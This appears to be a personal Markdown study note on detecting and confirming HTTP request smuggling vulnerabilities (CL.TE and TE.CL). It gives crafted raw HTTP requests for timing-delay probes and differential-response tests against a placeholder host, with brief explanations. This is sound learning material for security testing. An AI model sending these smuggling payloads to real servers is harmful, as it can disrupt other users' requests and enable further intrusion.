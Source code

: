 #http 
#request-smuggling 
# Timing techniques

Send request that will cause a time delay. #burp scanner works the same way.

# Finding [[HTTP RS Attacks#CL.TE]]
```http
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```
Front-end server uses `Content-Length` and omits `X`. Back-end server uses `TE` processing the first chunk and waits for the next.

# Finding [[HTTP RS Attacks#TE.CL]]
```http
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```
Front-end will omit `X`, Back-end server expects more content tin the body and waits for the remaining.
The timing-based test for TE.CL vulnerabilities will potentially disrupt other application users if the application is vulnerable to the CL.TE variant of the vulnerability.

# Confirming vulns using differential responses
This involves sending two requests to the application in quick succession:
- An "attack" request that is designed to interfere with the processing of the next request.
- A "normal" request.

Normal request:
```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

## Confirming [[HTTP RS Attacks#CL.TE]]
```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```
If the attack is successfull, then the last two lines are treated by back-end server as belonging to the next request that is received:
```http
GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```
Since this request contains an invalid URL, the server will respond 404.
### Confirming TE.CL vulnerabilities using differential responses
```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0
```
normal request:
```http
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 146

x=
0

POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```
